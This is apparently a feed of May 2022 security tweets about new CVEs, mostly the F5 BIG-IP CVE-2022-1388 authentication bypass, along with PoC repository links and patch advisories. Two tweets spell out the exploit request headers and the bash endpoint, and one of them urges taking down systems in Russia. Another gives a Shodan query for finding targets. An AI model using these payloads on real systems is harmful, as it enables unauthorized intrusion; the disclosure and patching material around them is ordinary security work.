https://t.co/QoVHXJ7UeI https://t.co/Q8aVQz0YoN
</blockquote>

* https://github.com/Altelus1/CVE-2022-24734
* https://t.me/hackgit/4195

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# nuria_imeq
**https://twitter.com/nuria_imeq/status/1524632315242205186 _at 2022-05-12 06:07:24_**
<blockquote>
GitHub - Pear1y/CVE-2022-26133: Atlassian Bitbucket Data Center RCE(CVE-2022-26133) verification and exploitation. https://t.co/53t3cpGDKN
</blockquote>

* https://github.com/Pear1y/CVE-2022-26133

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1524590216862134272 _at 2022-05-12 03:20:07_**
<blockquote>
There is a unserialize POP vulnerability that can RCE

https://t.co/NQaFkIZirD
#bugbountytips #bugbounty #0day
</blockquote>

* https://github.com/guoyanan1g/Laravel-vul/issues/2

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# sirifu4k1
**https://twitter.com/sirifu4k1/status/1524583184876580864 _at 2022-05-12 02:52:11_**
<blockquote>
There is a unserialize POP vulnerability that can RCE for CVE-2021-43503 #Laravel  https://t.co/q26NzKPkHR
</blockquote>

* https://github.com/guoyanan1g/Laravel-vul/issues/2#issue-1045655892

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>28</code></td>
</tr></table>

---

# fr33s0ul_Ninja
**https://twitter.com/fr33s0ul_Ninja/status/1524537731589840896 _at 2022-05-11 23:51:34_**
<blockquote>
MyBB's RCE #CVE-2022-24734 PoC https://t.co/JGWCcdrRok
</blockquote>

* https://github.com/Altelus1/CVE-2022-24734

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# r0ns3n
**https://twitter.com/r0ns3n/status/1524478745586941952 _at 2022-05-11 19:57:11_**
<blockquote>
Another #CVE-2021-27766 of mine just got published. HCL BigFix Client for #Microsoft #Windows contains a local privilege escalation #vulnerability.
#Mandiant #MYOW #UpdateNow #MandiantVulnerabilityDisclosure #ResponsibleDisclosure https://t.co/8EpksmwKoO
</blockquote>

* https://github.com/mandiant/Vulnerability-Disclosures/blob/master/2022/MNDT-2022-0024/MNDT-2022-0024.md

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>21</code></td>
</tr></table>

---

# r0ns3n
**https://twitter.com/r0ns3n/status/1524478461842276352 _at 2022-05-11 19:56:03_**
<blockquote>
Another #CVE-2021-27765 of mine just got published. HCL BigFix Server API for #Microsoft #Windows contains a local privilege escalation #vulnerability. #Mandiant #MYOW #UpdateNow #MandiantVulnerabilityDisclosure https://t.co/7Fl21E8t9D
</blockquote>

* https://github.com/mandiant/Vulnerability-Disclosures/blob/master/2022/MNDT-2022-0023/MNDT-2022-0023.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# threatintelctr
**https://twitter.com/threatintelctr/status/1524445049567813633 _at 2022-05-11 17:43:17_**
<blockquote>
🚨 NEW: CVE-2022-25850 🚨 The package https://t.co/hcKlvfyzcs before 1.0.0 are vulnerable to Server-side Request Forgery (SSRF) when interceptor mode is set to proxy. It occurs when an HTTP request is made ... (click for more) Severity: HIGH https://t.co/RQ5JH7qkHL
</blockquote>

* http://github.com/hoppscotch/proxyscotch
* https://nvd.nist.gov/vuln/detail/CVE-2022-25850

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# TecR0c
**https://twitter.com/TecR0c/status/1524423383051644930 _at 2022-05-11 16:17:11_**
<blockquote>
Microsoft has patched one of my RCE bugs CVE-2022-29109, affecting Excel and Office Server #PatchTuesday https://t.co/gBq2htTrBH
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-29109

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>121</code></td>
</tr></table>

---

# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1524362704802226177 _at 2022-05-11 12:16:04_**
<blockquote>
CVE-2022-21972: Windows Server VPN - remote kernel use after free vulnerability, by @i4mchr00t. 

This one has RCE potential. Patch just released on Patch Tuesday. Apply it now.

https://t.co/udW54soCXP
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-21972-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>116</code></td>
<td>Favorites: <code>201</code></td>
</tr></table>

---

# jorgemieres
**https://twitter.com/jorgemieres/status/1524361733703409664 _at 2022-05-11 12:12:13_**
<blockquote>
📢 CVE-2022-26809 #RCE - Apparently 🔃

➡️#Attack does not require #authentication
➡️Executed remotely over a #network
➡️#RemoteCodeExecution with #RPC #privileges
https://t.co/ecbvXBGDjg

#Windows 10 Pro Build 10.0.10240/42/44 x64
Windows #Server 2019/2022 x64
Windows 7 SP3 x64 https://t.co/Y7aK4U7LvO
</blockquote>

* https://github.com/ExploitPwner/CVE-2022-26809-RCE-POC

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1524277388045176832 _at 2022-05-11 06:37:03_**
<blockquote>
HackGit
CVE2022-1388_TestAPI A Test API for testing the POC against CVE-2022-1388 https://t.co/zgiojz2nGu #cve https://t.co/YM3S2N7SVq

CVE-2022-1388-POC
BIG-IP iCONTROL REST API AUTH BYPASS /RCE EXPLOIT BIG-IP RCE 2022

https://t.co/ejLwrwrWpD

#cve
… https://t.co/EHAP1blFnh https://t.co/792wDOsYxl
</blockquote>

* https://github.com/bandit92/CVE2022-1388_TestAPI
* https://t.me/hackgit/4182
* https://github.com/TomArni680/CVE-2022-1388-POC
* https://t.me/hackgit/4183

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1524277374585651200 _at 2022-05-11 06:37:00_**
<blockquote>
HackGit
CVE-2022-1388 RCE checker Simple bash script to check CVE-2022-1388 RCE (F5 BIG-IP). https://t.co/c9q2aPd5Wt https://t.co/OxxgNJdUUy

CVE2022-1388_TestAPI
A Test API for testing the POC against CVE-2022-1388

https://t.co/zgiojz2nGu

#cve

Git… https://t.co/YM3S2N7SVq https://t.co/qTYCmdmife
</blockquote>

* https://github.com/blind-intruder/CVE-2022-1388-RCE-checker
* https://t.me/hackgit/4174
* https://github.com/bandit92/CVE2022-1388_TestAPI
* https://t.me/hackgit/4182

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1524238867221696513 _at 2022-05-11 04:03:59_**
<blockquote>
CVE-2022-21972: Windows Server VPN Remote Kernel Use After Free Vulnerability https://t.co/yqqKaI3TZE
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-21972-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>160</code></td>
</tr></table>

---

# nullshock1
**https://twitter.com/nullshock1/status/1524225229861826560 _at 2022-05-11 03:09:48_**
<blockquote>
Exploited F5 BIG-IP CVE-2022-1388
(RCE Vulnerability)
Will share the steps soon!
 #bugbounty #infosec #cybersecurity https://t.co/C38epKnf2B
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>195</code></td>
</tr></table>

---

# ly4k_
**https://twitter.com/ly4k_/status/1524115531938377728 _at 2022-05-10 19:53:54_**
<blockquote>
The first blog post is here. This one covers the technical details of CVE-2022-26923 (Active Directory Domain Services Elevation of Privilege Vulnerability).

The vulnerability was patched as part of the May 2022 Security Updates from Microsoft.

https://t.co/MJKEoZTuo2
</blockquote>

* https://research.ifcr.dk/9e098fe298f4

<table><tr>
<td>Quotes: <code>21</code></td>
<td>Replies: <code>30</code></td>
<td>Retweets: <code>381</code></td>
<td>Favorites: <code>813</code></td>
</tr></table>

---

# splinter_code
**https://twitter.com/splinter_code/status/1524081363137306626 _at 2022-05-10 17:38:07_**
<blockquote>
A quick look at the May 2022 Patch Tuesday:

CVSS 9.8 score:

CVE-2022-26937 - Windows Network File System Remote Code Execution Vulnerability
CVE-2022-22012 - Windows LDAP Remote Code Execution Vulnerability
CVE-2022-29130 - Windows LDAP Remote Code Execution Vulnerability
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>244</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1524079013068746752 _at 2022-05-10 17:28:47_**
<blockquote>
The Microsoft May 2022 Patch Tuesday is out!

-75 bugs fixed this month
-one actively exploited zero-day (CVE-2022-26925 - Windows LSA Spoofing Vulnerability)

Report here: https://t.co/PTADpGl2XT https://t.co/j8vGowvLoD
</blockquote>

* https://rawcdn.githack.com/campuscodi/Microsoft-Patch-Tuesday-Security-Reports/1e7786fe1715dd9cfa861ca8d29a1091a2a4053f/Reports/MSRC_CVEs2022-May.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>121</code></td>
<td>Favorites: <code>235</code></td>
</tr></table>

---

# ryanaraine
**https://twitter.com/ryanaraine/status/1524076806940233728 _at 2022-05-10 17:20:01_**
<blockquote>
"An unauthenticated attacker could call a method on the LSARPC interface and coerce the domain controller to authenticate to the attacker using NTLM..."

Fresh Windows 0day (CVE-2022-26925) https://t.co/XrevYvpj4H
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>138</code></td>
<td>Favorites: <code>445</code></td>
</tr></table>

---

# 0patch
**https://twitter.com/0patch/status/1524055459254124545 _at 2022-05-10 15:55:11_**
<blockquote>
Micropatches are available for Remote Desktop Client RCE (CVE-2022-21990) https://t.co/pGFuIzwG9S

We'd like to thank Abdelhamid Naceri (@KLINIX5) for publishing their finding and providing a proof-of-concept that allowed us to reproduce the vulnerability and create a micropatch. https://t.co/MAzqWBmrFD
</blockquote>

* https://blog.0patch.com/2022/05/micropatches-for-remote-desktop-client.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# n0ipr0cs
**https://twitter.com/n0ipr0cs/status/1524005116155682817 _at 2022-05-10 12:35:08_**
<blockquote>
GitHub - sherlocksecurity/CVE-2022-1388_F5_BIG-IP_RCE: PoC for CVE-2022-1388_F5_BIG-IP https://t.co/O3jebfTnrR
</blockquote>

* https://github.com/sherlocksecurity/CVE-2022-1388_F5_BIG-IP_RCE

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1523966554538344448 _at 2022-05-10 10:01:55_**
<blockquote>
A new RCE flaw (CVE-2022-29972) in #Microsoft Azure Synapse &amp; Data Factory could have allowed attackers to gain control of other Synapse workspaces and leak sensitive data, including service keys, API tokens, as well as passwords for other services

https://t.co/srY0ycAuby

#tech
</blockquote>

* https://thehackernews.com/2022/05/microsoft-mitigates-rce-vulnerability.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# mattaustin
**https://twitter.com/mattaustin/status/1523889826201686016 _at 2022-05-10 04:57:01_**
<blockquote>
The F5 critical BIG-IP RCE (CVE-2022-1388) (https://t.co/6C6C3H4a3f) is super simple to exploit but abuses an interesting feature that has been known for a while known as "hop-by-hop" headers. see: https://t.co/gmxQUOoOtN
</blockquote>

* https://github.com/horizon3ai/CVE-2022-1388/blob/main/CVE-2022-1388.py
* https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---

# three_cube
**https://twitter.com/three_cube/status/1523857554874449927 _at 2022-05-10 02:48:47_**
<blockquote>
13 of these F5 Big IP systems in Russia. 

Use this exploit to take them down!

#CVE-2022-1388 F5's BIG-IP Unauth RCE

Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything

https://x.x.x.x:443/mgmt/tm/util/bash https://t.co/HPloQX1A2Y
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# beingsheerazali
**https://twitter.com/beingsheerazali/status/1523809767512150020 _at 2022-05-09 23:38:54_**
<blockquote>
F5 BIG-IP RCE exploitation (CVE-2022-1388) 

#infosec #pentest #exploit 
https://t.co/TybQKT11UB https://t.co/quezgTE6om CyberWarship
</blockquote>

* https://github.com/alt3kx/CVE-2022-1388_PoC

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1523706884942974976 _at 2022-05-09 16:50:05_**
<blockquote>
So, #F5 already had a RCE vulnerability CVE-2021-22986 with CVSS score 9.8 for the same API endpoint that makes "bash" accessible to remote users and now a very similar CVE-2022-1388

https://t.co/wusV5H10w2

My respect for their software has never been lower https://t.co/2IMk44cmPi
</blockquote>

* https://twitter.com/Cthulhu_Sec/status/1523702441266401282

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>192</code></td>
</tr></table>

---

# Vulnmachines
**https://twitter.com/Vulnmachines/status/1523704960134701056 _at 2022-05-09 16:42:26_**
<blockquote>
F5 #BigIP RCE exploitation (CVE-2022-1388)
Critical security vulnerabilities in F5 Big-IP allows attackers to execute arbitrary code

https://t.co/OFHgZsq4sl

#infosec #cybersecurity #F5 https://t.co/4dx6pe0svX
</blockquote>

* https://github.com/Vulnmachines/F5-Big-IP-CVE-2022-1388

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# Flash162011
**https://twitter.com/Flash162011/status/1523626303777570819 _at 2022-05-09 11:29:53_**
<blockquote>
F5 BIG-IP RCE exploitation (CVE-2022-1388) 
#security #F5 #WAF  #bughunting #bugbountytips #bugcrowd #hackthebox #hackerone #redteam #redteaming #pentesting #cybersecurity #infosec #CVE
#zeroday

https://t.co/cWdqlbOqhY
</blockquote>

* https://github.com/alt3kx/CVE-2022-1388_PoC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# Threat_Recon
**https://twitter.com/Threat_Recon/status/1523612976380780546 _at 2022-05-09 10:36:55_**
<blockquote>
CVE-2022-1388_F5_BIG-IP

https://t.co/iIgbSsgORe

https://t.co/nz4pazsxUo
#infosec 
#CyberSecurity 
#vulnerability 
#exploitation
</blockquote>

* https://github.com/bytecaps/CVE-2022-1388-EXP
* https://github.com/sherlocksecurity/CVE-2022-1388_F5_BIG-IP_RCE

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1523611433938059265 _at 2022-05-09 10:30:47_**
<blockquote>
#CVE-2022-1388 F5's BIG-IP Unauth RCE

Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything

https://x.x.x.x:443/mgmt/tm/util/bash https://t.co/cPqdwjT11f
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>235</code></td>
<td>Favorites: <code>604</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1523578889691607040 _at 2022-05-09 08:21:28_**
<blockquote>
POC, CVE-2022-1388  F5 Big-IP RCE
#bugbounty #nday https://t.co/VLt2UjEWkf
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>469</code></td>
</tr></table>

---

# MeAsHacker_HNA
**https://twitter.com/MeAsHacker_HNA/status/1523575563163627521 _at 2022-05-09 08:08:15_**
<blockquote>
#CVE
CVE-2022-1388
F5 BIG-IP Unauthenticated #RCE Vulnerability

#POC
Use POST request to execute "cat /etc/passwd" command

#Shodan: 
http.title:"BIG-IP&amp;reg;-+Redirect" +"Server" 
 
#Nuclei:
https://t.co/p5gwsejbck

#Cyber #CyberSecurity #CyberAttack #InfoSec #Hacking #BugBounty https://t.co/ob1znAKymd
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/4303/files

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>248</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1523573215993286657 _at 2022-05-09 07:58:55_**
<blockquote>
POC, CVE-2022-1388  F5 Big-IP RCE https://t.co/FiRghbogiN
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>408</code></td>
</tr></table>

---

# AnnaViolet20
**https://twitter.com/AnnaViolet20/status/1523564632140509184 _at 2022-05-09 07:24:49_**
<blockquote>
Let's drop CVE-2022-1388 PoC https://t.co/MmyvQGL6eO
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>66</code></td>
<td>Replies: <code>28</code></td>
<td>Retweets: <code>405</code></td>
<td>Favorites: <code>1534</code></td>
</tr></table>

---

# zapstiko
**https://twitter.com/zapstiko/status/1523482807838060544 _at 2022-05-09 01:59:40_**
<blockquote>
Spring4Shell 

@pdnuclei

templates https://t.co/MOI8rhFw7m… Log4j 

@pdnuclei

templates https://t.co/Rpl7dqHWAA All here :-
#BugBounty #bugbountytips #log4j 
#Spring4Shell
</blockquote>

* https://github.com/justmumu/SpringShell
* https://github.com/trickest/log4j

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>65</code></td>
</tr></table>

---

# NaisuBanana
**https://twitter.com/NaisuBanana/status/1523368928310820864 _at 2022-05-08 18:27:09_**
<blockquote>
Here it is - SMB Session Spoofing!

This utility allows you to spoof SMB user sessions drawing attackers to a honey workstation. This program can be installed as a service and ran silently in the background!

https://t.co/YyWKmdawLe https://t.co/7BzTTMpVTl
</blockquote>

* https://github.com/Sq00ky/SMB-Session-Spoofing

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>398</code></td>
</tr></table>

---

# Alra3ees
**https://twitter.com/Alra3ees/status/1522961461257318400 _at 2022-05-07 15:28:02_**
<blockquote>
agartha:-
a burp extension for dynamic payload generation to detect injection flaws (RCE, LFI,SQLi),creates access matrix based user sessions to spot authentication/authorization issues, and converts Http requests to Javascript for further XSS exploitation https://t.co/dkIgbVvJaB
</blockquote>

* https://github.com/ExpLangcn/agartha

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>117</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1522873828896034816 _at 2022-05-07 09:39:49_**
<blockquote>
🔥 We have reproduced the fresh CVE-2022-1388 in F5's BIG-IP.

Successful exploitation could lead to RCE from an unauthenticated user.

Patch ASAP! https://t.co/WjlWtTgSVz
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>279</code></td>
<td>Favorites: <code>822</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1522715182014902272 _at 2022-05-06 23:09:24_**
<blockquote>
The new F5 RCE vulnerability, CVE-2022-1388, is trivial to exploit. We spent some time chasing unrelated diffs within the newest version, but @jameshorseman2 ultimately got first blood. We'll release a POC next week to give more time for orgs to patch.

#f5 #CyberSecurity https://t.co/O1SivUE4vA
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>18</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>371</code></td>
<td>Favorites: <code>1153</code></td>
</tr></table>

---

# dec0ne
**https://twitter.com/dec0ne/status/1522684003941335042 _at 2022-05-06 21:05:31_**
<blockquote>
Added shadow credentials support for #KrbRelayUp.
Details are in the repo.
https://t.co/gyTmaITNin
Demo in the second tweet.
Again, most of the work has already been done by others, thanks for your amazing research: @cube0x0, @elad_shamir, @harmj0y, @tiraniddo
</blockquote>

* https://github.com/Dec0ne/KrbRelayUp

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>170</code></td>
</tr></table>

---

# _bughunter
**https://twitter.com/_bughunter/status/1522594405512884225 _at 2022-05-06 15:09:29_**
<blockquote>
A smart SSRF scanner that uses different methods like parameter brute forcing in post and get and more 🔥🔥
https://t.co/DCgPFyzpbC
#bugbountytips #bugbountytip #bugbounty
</blockquote>

* https://github.com/Damian89/extended-ssrf-search

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1522480507820425217 _at 2022-05-06 07:36:54_**
<blockquote>
CVE-2022-1040-sophos-rce-poc
Sophos webmin portal auth bypass and rce all in one script; The vulnerability affects Sophos Firewall v18.5 MR3 (18.5.3) and older

https://t.co/CJNJ8Vkc0K

GitHub - cve-hunter/CVE-2022-1040-sophos-rce: cve-2022-1040 is an a… https://t.co/EC4cSTkiZC https://t.co/BPp2E2BpaD
</blockquote>

* https://github.com/cve-hunter/CVE-2022-1040-sophos-rce
* https://t.me/hackgit/4126

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# LRestoux
**https://twitter.com/LRestoux/status/1522466841087680512 _at 2022-05-06 06:42:35_**
<blockquote>
@CyrilleChatras @OrangeCertCC just published our PoCs:
Cisco Enterprise NFVIS - XML External Entity Injection Vulnerability (CVE-2022-20780)
https://t.co/3G0VskaYHG
</blockquote>

* https://github.com/orangecertcc/security-research/security/advisories/GHSA-hrpq-384f-vrpg

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# nullenc0de
**https://twitter.com/nullenc0de/status/1522345251612114944 _at 2022-05-05 22:39:26_**
<blockquote>
This new XOR sql injection attack is interesting. Worth adding to your wordlists https://t.co/uy6zOcbBc4
</blockquote>

* https://github.com/sqlmapproject/sqlmap/issues/4091

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>292</code></td>
</tr></table>

---

# LinInfoSec
**https://twitter.com/LinInfoSec/status/1522290221806723073 _at 2022-05-05 19:00:46_**
<blockquote>
Php - CVE-2022-28053: https://t.co/9dYTWsVkPw
</blockquote>

* https://github.com/typemill/typemill/issues/325

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# blueteamsec1
**https://twitter.com/blueteamsec1/status/1522216808291258370 _at 2022-05-05 14:09:03_**
<blockquote>
Lockbit 2.0 affiliate’s new SonicWall exploit bypasses MFA - Affiliates observed to exploit a known but relatively obscure SQLi vulnerability (CVE-2019-7481 or CVE-2021-20028) in a novel manner to retrieve user session data… https://t.co/PW3eVG5uIE #cyber #threathunting #infosec https://t.co/CHSbD4dO0L
</blockquote>

* http://dlvr.it/SPpwFz

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1522184878019661826 _at 2022-05-05 12:02:10_**
<blockquote>
Code Injection in https://t.co/i5Dj0XFlvA (CVE-2022-1575) reported by 7085 - Patch: https://t.co/IQrJ2Ot8ZK
https://t.co/h9VNMMb6Jh #bugbounty #infosec #opensource
</blockquote>

* https://github.com/jgraph/drawio
* https://github.com/jgraph/drawio/commit/f768ed73875d5eca20110b9c1d72f2789cd1bab7
* https://huntr.dev/bounties/033d3423-eb05-4b53-a747-1bfcba873127/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# daem0nc0re
**https://twitter.com/daem0nc0re/status/1522127820167979009 _at 2022-05-05 08:15:26_**
<blockquote>
As far as I tested, WNF_SHEL_APPLICATION_STARTED cannot be used to code injection in Windows 11, but several Well-know WNF State Names can still be used to code injection.
https://t.co/RY4JpujjPf https://t.co/a4BfhYhqgz
</blockquote>

* https://github.com/daem0nc0re/SharpWnfSuite

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1522043390379974656 _at 2022-05-05 02:39:57_**
<blockquote>
WATCH OUT! F5 warns of a new critical BIG-IP remote code execution #vulnerability (CVE-2022-1388) due to missing authentication checks that could allow attackers to gain control of affected systems.

Details: https://t.co/inPyfcPvWy

#infosec #cybersecurity #hacking #hackernews
</blockquote>

* https://thehackernews.com/2022/05/f5-warns-of-new-critical-big-ip-remote.html

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>131</code></td>
<td>Favorites: <code>178</code></td>
</tr></table>

---

# _bughunter
**https://twitter.com/_bughunter/status/1521828423487959045 _at 2022-05-04 12:25:45_**
<blockquote>
SSRF, XSS, Open Redirects check in one tool ?
SSRFIRE is what you want 🔥🔥
Usage: 
./ssrfire.sh -d https://t.co/AZp86UVeot -s https://t.co/BYrmFHuS1z -f custom_file.txt -c cookies
https://t.co/QHEKheGFmQ
#bugbountytips #bugbountytip #bugbounty https://t.co/uOCvpIxyuG
</blockquote>

* http://domain.com
* http://yourserver.com
* https://github.com/ksharinarayanan/SSRFire

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>327</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1521824788796166144 _at 2022-05-04 12:11:18_**
<blockquote>
A critical RCE #vulnerability (CVE-2022-26352) has been reported in the open-source dotCMS content management system, which is used by more than 10,000 customers in 70 countries, including Fortune 500 brands and mid-sized companies.

Read: https://t.co/GJCag2nINi

#infosec #tech
</blockquote>

* https://thehackernews.com/2022/05/critical-rce-bug-reported-in-dotcms.html

